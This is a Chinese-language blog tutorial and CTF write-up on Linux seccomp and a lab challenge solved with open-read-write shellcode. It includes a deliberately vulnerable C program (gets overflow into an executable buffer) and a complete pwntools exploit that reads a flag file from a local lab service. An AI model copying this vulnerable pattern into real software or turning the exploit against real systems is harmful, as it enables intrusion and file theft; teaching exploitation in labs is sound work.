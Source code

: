 ```yaml
---
title: "Day19－Shellcode Bonus－ORW"
date: 2024-10-03
draft: false
tags: ["iron-man-2024", "pwn", "2024"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

今天我們將介紹一些簡單的知識，並在最後提供一個練習 Lab。看完前面的內容，大家可能會想：「如果我們可以調用 `execve`，那是否就能拿到 shell 呢？」這確實沒錯，但還有一種方法可以防止使用者調用 `execve` 系統呼叫 (syscall)，這就是 `seccomp` 的機制。

## Seccomp (secure computing mode)

`seccomp` 是 Linux 核心用來禁用特定系統呼叫的機制，透過 `Seccomp BPF` 可以設定對某些 syscall 的過濾規則。例如，可以限制 `execve`，甚至 `open`、`read`、`write` 等等。

但在實作這些規則後，逆向工程的過程可能變得不直觀且困難理解。為了簡化分析，`one gadget` 工具的作者還開發了一個工具，叫做 `seccomp-tools`，非常適合這類情況。

## [seccomp-tools](https://github.com/david942j/seccomp-tools)

**筆者提供的環境中已經安裝了該工具**

這個工具能分析程式的 `seccomp` 規則，並將結果轉換成直觀的 `if-else` 形式的 pseudo code。這讓我們能輕鬆看出程式允許或限制了哪些 syscall，非常適合處理複雜的 `seccomp` 規則。

使用方式如下：

```bash
seccomp-tools dump ./[binary]
```

![image](/images/iron2024/day19_image1.png)

## Lab

查看以下原始碼：

```c
#include <stdio.h>
#include <sys/mman.h>
#include <unistd.h>
#include "seccomp-bpf.h"

void apply_seccomp() {
    struct sock_filter filter[] = {
        VALIDATE_ARCHITECTURE,
        EXAMINE_SYSCALL,
        ALLOW_SYSCALL(read),
        ALLOW_SYSCALL(write),
        ALLOW_SYSCALL(open),
        KILL_PROCESS,
    };

    struct sock_fprog prog = {
        .len = (unsigned short)(sizeof(filter) / sizeof(struct sock_filter)),
        .filter = filter,
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)) {
        perror("Seccomp Error");
        exit(1);
    };
    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog)) {
        perror("Seccomp Error");
        exit(1);
    };
}
char shellcode[0x100];
int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    unsigned long addr = (unsigned long)&shellcode & ~0xfff;
    mprotect((void *)addr, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE);
    apply_seccomp();
    printf("I add new rule to prevent you from using system().\n");
    printf("Give me shellcode: ");
    read(0, shellcode, 0x100);
    printf("Overflow me: ");
    char buffer[0x10];
    gets(buffer);
    printf("Bye!\n");
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/orw.c -o ./orw/share/orw -fno-stack-protector -no-pie
```

## writeup

可以發現程式將 `shellcode` 陣列的位置修改為可讀、可寫、可執行，並且在程式中允許使用者輸入 shellcode。程式中最關鍵的是 `gets` 的 buffer overflow 且沒有開啟 PIE 與 Canary，這讓我們能夠控制 return address。再者，程式使用了 `Seccomp` 規則，只允許 `open`、`read`、`write` 這三個 syscall，因此我們無法使用 `execve` 獲取 shell。此時我們可以透過 `seccomp-tools` 來確認。

![image](/images/iron2024/day19_image2.png)

換個角度思考，我們獲取 shell 的目的是為了拿到 flag。程式允許我們開啟檔案、讀取檔案並輸出內容，因此如果知道 flag 的位置，我們可以直接開檔讀取並輸出，如此即可拿到 flag。接下來我們需要確認幾件事：

- flag 檔案的位置
- 如何開啟、讀取、輸出檔案
- shellcode 的位置

首先，讓我們查看提供的檔案目錄：

![image](/images/iron2024/day19_image3.png)

從 `Dockerfile` 開始分析，會發現 Docker 創建了 `ubuntu:22.04` 的容器，並且設定了與網路服務相關的 `xinetd`。從目錄結構可以推測 flag 位於 `/home/orw/flag`。

```dockerfile
FROM ubuntu:22.04
LABEL org.opencontainers.image.authors="YJK"
RUN apt-get update
RUN apt-get install xinetd -y
RUN useradd -m orw
RUN chown -R root:root /home/orw
RUN chmod -R 755 /home/orw
CMD ["/usr/sbin/xinetd", "-dontfork"]
```

以下是負責此題的 `docker-compose.yml`，可以看到 `orw/share` 被掛載到容器的 `/home/orw`，因此 flag 的位置應該是 `/home/orw/flag`。

```yml=
orw:
    build: ./orw
    volumes:
      - ./orw/share:/home/orw:ro
      - ./orw/xinetd:/etc/xinetd.d/orw:ro
    ports:
      - "10010:10005"
```

接下來，我們可以透過 `pwntools` 的 `shellcraft` 來生成可以開啟 `/home/orw/flag` 並讀取其內容的 shellcode。

以下程式就會生成可以使用來開啟 `/home/orw/flag` 再讀檔並輸出到 stdin 的 shellcode，那基本上這段程式的執行大概會是先將 `'/home/orw/flag'` 字串放到 stack，並且再透過 `open` 將 `rsp` 的內容，也就是剛剛放入 stack 的檔案路徑打開，並且後面的兩個 0 是作為設定開檔模式與設定權限的部分，再來透過 `read` 將 `rsp` 指向的檔案讀取並儲存，`rax` 是用來讀取檔案，再來透過 `write` 將 `rsp` 剛剛讀取並存入的內容輸出，並且前面的 1 為設定為 stdin，在此時即可以看到檔案內容

```python
shellcode = b""

shellcode += asm(shellcraft.pushstr('/home/orw/flag'))
shellcode += asm(shellcraft.open('rsp', 0, 0))
shellcode += asm(shellcraft.read('rax', 'rsp', 0x100))
shellcode += asm(shellcraft.write(1, 'rsp', 0x100))
```

最後，我們需要確認溢出的 padding 和跳轉的地址。可以使用 `nm` 確定 shellcode 的地址。

![image](/images/iron2024/day19_image4.png)

使用 `objdump` 可以發現輸入從 `rbp-0x20` 開始，因此我們需要填充 0x20+0x8 的資料，然後跳轉到 shellcode。

![image](/images/iron2024/day19_image5.png)

完整 exploit：

```python
from pwn import *
context.arch = 'amd64'
# r = process('../orw/share/orw')
r = remote('127.0.0.1', 10010)

shellcode = b""

shellcode += asm(shellcraft.pushstr('/home/orw/flag'))
shellcode += asm(shellcraft.open('rsp', 0, 0))
shellcode += asm(shellcraft.read('rax', 'rsp', 0x100))
shellcode += asm(shellcraft.write(1, 'rsp', 0x100))

r.sendlineafter(b': ', shellcode)
payload = b'A' * (0x20 + 8) + p64(0x4040a0)
r.sendlineafter(b': ', payload)
r.recvuntil(b'!\n')
r.interactive()
```

solved!!!

![image](/images/iron2024/day19_image6.png)

